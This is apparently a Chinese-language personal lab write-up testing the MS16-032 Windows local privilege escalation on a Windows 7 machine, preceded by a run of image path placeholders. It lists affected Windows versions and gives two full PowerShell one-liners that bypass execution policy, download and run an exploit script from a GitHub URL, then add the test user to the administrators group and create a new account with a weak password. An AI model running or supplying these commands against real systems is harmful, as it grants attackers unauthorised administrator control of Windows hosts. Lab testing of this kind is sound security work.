








顺便再拿win7开个刀，玩玩MS16-032 windows本地提权。

## 一、exploit-db详情：
https://www.exploit-db.com/exploits/39719/
## 二、此漏洞影响从Vista到Windows 10的所有Windows版本（包括服务器版本）以及为了实现利用，因为PowerShell脚本指示需要满足以下要求：
### 1.目标系统需要有2个以上的CPU核心
### 2.PowerShell v2.0及更高版本必须正在运行
## 三、此漏洞会影响以下Microsoft产品：
Windows Vista
Windows 7
Windows 8.1
Windows 10
Windows 2008 Server
Windows 2012 Server
## 四、提权powershell脚本：
39719.ps1
## 五、测试详情：
### 1、测试机
Windows 7：test1（非管理员组）

### 2.先用powershell命令试试
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net localgroup administrators test1 /add'"

成功提权至管理员组，加个用户看看

powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net user test2 123456 /add'"

### 3.试试网上公开的powershell脚本
39719.ps1

不行，看看提示

无果，希望师傅们邮件或者微博留言指导一下小弟~
